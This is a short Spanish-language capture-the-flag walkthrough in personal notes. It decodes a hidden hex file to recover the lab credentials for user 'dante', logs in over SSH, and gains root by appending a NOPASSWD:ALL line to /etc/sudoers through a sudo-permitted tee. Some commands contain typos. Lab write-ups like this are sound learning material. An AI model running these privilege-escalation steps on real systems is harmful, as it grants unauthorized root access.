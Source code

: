![[Captura de pantalla -2023-07-12 12-31-29.png]]

==Shell obtenida.

```
tee -r
find / -perm -4000 -ls 2>/dev/null
```
![[Captura de pantalla -2023-07-12 12-47-30.png]]

==Al listar los documentos se encuentra un archivo oculto llamad .download.dat

```
cat .download.dat; echo
```

![[Captura de pantalla -2023-07-12 12-54-06.png]]

==Esta cadena de texto ilegible parece ser un texto codeado en hexadecimal

```
cat .download.tas | xxd -ps -r; echo
```

![[Captura de pantalla -2023-07-12 13-20-59.png]]

==Es una cita del libro de dante la cual contiene unas posibles contraseñas
dante:V1rg1l10h3lpm3 

```
shh dante@192.168.153.136
```

![[Captura de pantalla -2023-07-12 13-24-31.png]]

==Las cuales son correctas para la conexion ssh

![[Captura de pantalla -2023-07-12 13-25-35.png]]

==Flag de usuario local.txt

---
# Escalamiento a root.
```
sudo -l
```
![[Captura de pantalla -2023-07-12 13-31-25.png]]

==El imput del comando nos arroja que el comando tee puede ser utilizado como root sin contraseña.

```
echo "dante ALL=(ALL) NOPASSWD:ALL" | sudo tee -a /etc/sudoers
```
==Este comando en la línea de comandos de Unix/Linux está diseñado para modificar el archivo de configuración `/etc/sudoers` de manera que permita al usuario llamado "dante" ejecutar cualquier comando con privilegios de superusuario (root) sin necesidad de proporcionar una contraseña.
